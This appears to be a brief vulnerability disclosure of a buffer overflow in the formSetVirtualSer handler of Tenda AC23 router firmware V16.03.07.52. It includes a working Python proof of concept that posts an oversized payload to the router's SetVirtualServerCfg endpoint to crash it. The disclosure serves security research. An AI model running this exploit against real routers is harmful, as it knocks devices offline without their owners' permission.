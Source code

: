 A buffer overflow vulnerability in Tenda AC23 V16.03.07.52 occurs because the formSetVirtualSer function does not check the length of input data, which can be exploited by an attacker to launch a denial of service attack.

<img width="415" height="169" alt="image" src="https://github.com/user-attachments/assets/0cf72a60-79df-4f55-bfec-1ce3996f1897" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetVirtualServerCfg"

cookie = {"Cookie":"password=12345"}
data = {"list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
